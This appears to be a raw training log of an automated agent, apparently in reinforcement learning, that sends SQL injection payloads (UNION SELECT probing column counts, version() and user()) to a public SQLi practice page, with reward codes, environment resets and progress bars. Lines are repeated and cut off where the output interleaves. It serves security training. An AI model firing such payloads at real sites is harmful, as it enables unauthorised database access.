https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1

  0%|          | 1778/1000000 [10:29:04<12552:19:46, 45.27s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1779/1000000 [10:29:06<8954:05:34, 32.29s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1780/1000000 [10:29:07<6306:07:55, 22.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Serv

  0%|          | 1781/1000000 [10:29:18<5384:11:42, 19.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1782/1000000 [10:29:19<3852:02:55, 13.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1783/1000000 [10:29:20<2777:08:46, 10.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 1784/1000000 [10:32:01<15278:50:34, 55.10s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Se

  0%|          | 1785/1000000 [10:33:38<18766:09:27, 67.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1786/1000000 [10:33:39<13216:39:41, 47.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1787/1000000 [10:33:40<9327:39:58, 33.64s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1788/1000000 [10:33:40<6607:20:23, 23.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1789/1000000 [10:33:41<4705:57:23, 16.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1790/1000000 [10:33:42<3372:21:18, 12.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1791/1000000 [10:33:44<2524:18:04,  9.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1792/1000000 [10:33:45<1851:12:08,  6.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1793/1000000 [10:33:46<1374:38:23,  4.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1794/1000000 [10:33:47<1038:33:55,  3.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1795/1000000 [10:33:48<801:36:13,  2.89s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1796/1000000 [10:33:49<640:30:44,  2.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1797/1000000 [10:33:50<535:54:58,  1.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1798/1000000 [10:33:52<537:19:08,  1.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,ver

  0%|          | 1799/1000000 [10:34:57<5767:23:44, 20.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1800/1000000 [10:34:58<4118:34:09, 14.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1801/1000000 [10:34:59<2961:35:00, 10.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1802/1000000 [10:35:00<2156:59:40,  7.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1803/1000000 [10:35:01<1597:10:03,  5.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zix

  0%|          | 1804/1000000 [10:35:16<2343:55:25,  8.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista

  0%|          | 1805/1000000 [10:35:56<5008:38:59, 18.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,

  0%|          | 1806/1000000 [10:36:08<4462:35:23, 16.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1807/1000000 [10:36:09<3279:36:33, 11.83s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Synt

  0%|          | 1808/1000000 [10:38:59<16406:05:01, 59.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1809/1000000 [10:39:00<11568:47:41, 41.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1810/1000000 [10:39:04<8408:11:52, 30.32s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1811/1000000 [10:39:06<6055:15:39, 21.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervist

  0%|          | 1812/1000000 [10:40:21<10463:59:26, 37.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1813/1000000 [10:40:22<7402:24:53, 26.70s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc numb

  0%|          | 1814/1000000 [10:42:08<14003:41:26, 50.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1815/1000000 [10:42:09<9878:38:53, 35.63s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 1816/1000000 [10:46:10<26993:08:18, 97.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https:

  0%|          | 1817/1000000 [10:46:46<21912:17:55, 79.03s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 1818/1000000 [10:47:02<16670:40:15, 60.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.p

  0%|          | 1819/1000000 [10:47:40<14780:19:59, 53.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1820/1000000 [10:47:41<10430:41:29, 37.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1821/1000000 [10:47:42<7377:48:09, 26.61s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1822/1000000 [10:47:43<5241:11:55, 18.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is

  0%|          | 1823/1000000 [10:47:52<4457:37:45, 16.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1824/1000000 [10:47:53<3199:10:50, 11.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1825/1000000 [10:47:54<2322:43:32,  8.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1826/1000000 [10:47:55<1710:41:01,  6.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1827/1000000 [10:47:56<1274:16:24,  4.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3

  0%|          | 1828/1000000 [10:48:16<2525:59:13,  9.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1829/1000000 [10:48:16<1843:50:52,  6.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1830/1000000 [10:48:20<1611:15:53,  5.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 1831/1000000 [10:49:49<8512:15:14, 30.70s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1832/1000000 [10:49:50<6042:29:35, 21.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3

  0%|          | 1833/1000000 [10:51:12<11010:31:50, 39.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3

  0%|          | 1834/1000000 [10:51:32<9443:35:25, 34.06s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
